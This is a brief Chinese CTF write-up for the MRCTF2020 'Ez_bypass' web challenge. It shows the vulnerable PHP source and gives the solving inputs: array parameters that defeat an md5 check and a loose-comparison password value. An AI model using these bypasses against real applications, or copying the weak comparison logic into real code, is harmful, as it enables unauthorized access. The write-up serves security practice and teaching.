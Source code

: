 # [MRCTF2020]Ez_bypass(氵)
![](<./img/Pasted image 20221101080348.png>)

![](<./img/Pasted image 20221101080408.png>)

```php
I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else
            {
                echo 'You can not get it !';
            }
		}
	    else
	    {
	        die('only one way to get the flag');
	    }
	}
	else 
	{
	    echo "You are not a real hacker!";
	}
}
else
{
    die('Please input first');
}
}Please input first
```
先使用数组绕过md5函数
```
/?gg[]=1&id[]=2
```
![](<./img/Pasted image 20221101081208.png>)

再用弱类型比较绕过
```
passwd=1234567abc
```
![](<./img/Pasted image 20221101081422.png>)
